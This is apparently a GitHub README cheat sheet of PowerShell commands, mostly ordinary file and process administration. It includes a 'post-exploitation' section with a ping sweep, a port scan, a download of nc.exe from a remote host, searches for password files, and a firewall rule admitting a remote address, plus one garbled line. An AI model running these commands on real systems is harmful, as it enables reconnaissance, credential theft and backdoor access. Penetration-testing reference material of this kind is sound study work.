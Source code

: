 # CheatSheet
Some common commands used in Windows and Linux 

## Powershell
* Get a directory listing (ls, dir, gci):
```
PS C:\> Get-ChildItem
```
* Copy a file (cp, copy, cpi):
```
PS C:\> Copy-Item src.txt dst.txt 
```
* Move a file (mv, move, mi): 
```
PS C:\> Move-Item src.txt dst.txt 
```
* Find text within a file: 
```
PS C:\> Select-String –path c:\users\*.txt –pattern password 
PS C:\> ls -r c:\users -file | % 
{Select-String -path $_ -pattern 
password}
```
* Display file contents (cat, type, gc): 
```
PS C:\> Get-Content file.txt 
```
* Get present directory (pwd, gl): 
```
PS C:\> Get-Location 
```
* Get a process listing (ps, gps): 
```
PS C:\> Get-Process 
```
* Get a service listing: 
```
PS C:\> Get-Service 
```
* Formatting output of a command (Format-List): 
```
PS C:\> ls | Format-List –property name
```
* Paginating output: 
```
PS C:\> ls –r | Out-Host -paging 
```
* Get the SHA1 hash of a file: 
```
PS C:\> Get-FileHash -Algorithm SHA1 file.txt 
```
* Exporting output to CSV: 
```
PS C:\> Get-Process | Export-Csv procs.csv 
```
### For post-exploitation
* Conduct a ping sweep: 
```
PS C:\> 1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | SelectString ttl} 
```
* Conduct a port scan: 
```
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null 
```
* Fetch a file via HTTP (wget in PowerShell): 
```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe") 
```
* Find all files with a particular name: 
```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt 
```
* Get a listing of all installed Microsoft Hotfixes: 
```
PS C:\> Get-HotFixNavigate the Windows registry: 
PS C:\> cd HKLM:\ 
PS HKLM:\> ls 
```
* List programs set to start automatically in the registry: 
```
PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run 
```
* Convert string from ascii to Base64: 
```
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PS FTW!")) 
```
* List and modify the Windows firewall rules: 
```
PS C:\> Get-NetFirewallRule –all 
PS C:\> New-NetFirewallRule -Action Allow -DisplayName LetMeIn -RemoteAddress 10.10.10.25 
```
